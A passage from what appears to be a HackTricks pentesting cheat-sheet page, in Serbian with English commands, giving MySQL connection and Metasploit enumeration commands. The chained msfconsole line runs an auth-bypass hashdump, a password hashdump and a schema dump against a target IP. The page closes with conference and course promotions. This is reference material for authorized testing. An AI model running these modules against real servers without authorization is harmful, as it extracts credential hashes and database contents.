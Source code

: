 ```
Entry_3:
Name: MySql
Description: Attempt to connect to mysql server
Command: mysql -h {IP} -u {Username}@localhost

Entry_4:
Name: MySql consolesless mfs enumeration
Description: MySql enumeration without the need to run msfconsole
Note: sourced from https://github.com/carlospolop/legion
Command: msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_version; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_authbypass_hashdump; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/admin/mysql/mysql_enum; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_hashdump; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_schemadump; set RHOSTS {IP}; set RPORT 3306; run; exit'

```

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) je najrelevantniji događaj u vezi sa kibernetičkom bezbednošću u **Španiji** i jedan od najvažnijih u **Evropi**. Sa **misijom promovisanja tehničkog znanja**, ovaj kongres je vrelo mesto susreta tehnoloških i kibernetičkih stručnjaka u svakoj disciplini.

{% embed url="https://www.rootedcon.com/" %}

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
